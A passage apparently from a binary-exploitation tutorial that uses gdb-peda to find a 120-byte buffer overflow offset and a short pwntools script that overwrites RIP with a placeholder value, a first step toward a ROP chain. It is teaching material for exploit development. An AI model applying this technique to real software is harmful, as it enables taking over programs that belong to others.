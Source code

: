 Otherwise the application should crash and "RSP" has a value of: <kbd>jAA9AAOAAkAAPAAlAA</kbd>.
We can use this pattern to find the offset.

```
gdb-peda$ pattern_offset jAA9AAOAAkAAPAAlAA
jAA9AAOAAkAAPAAlAA found at offset: 120
```

Let's start crafting a first proof of concept and see if we can control "RIP".

{{< highlight python >}}
#!/usr/bin/python3
from pwn import *

payload = b'A' * 120           # offset to RIP
payload += p64(0x42424242)      # RIP
payload += b'C' * 170           # some more junk, because why not

f = open("payload.txt", "wb")
f.write(payload)
{{< / highlight >}}

This script needs the "pwntools" library.
For now we just use the <kbd>p64()</kbd> function as a helper to convert the addresses we will use for our "ROPChain" to "little endian" and also to the propper byte sequence.

Other than that we just fill up the buffer, overwrite "RIP" and write this to a file.
Let's start the application again in "gdb-peda" and redirect the file's content into it.

![safe-poc](safe-poc.png)

Success. "RIP" has been overwritten with an value we control.
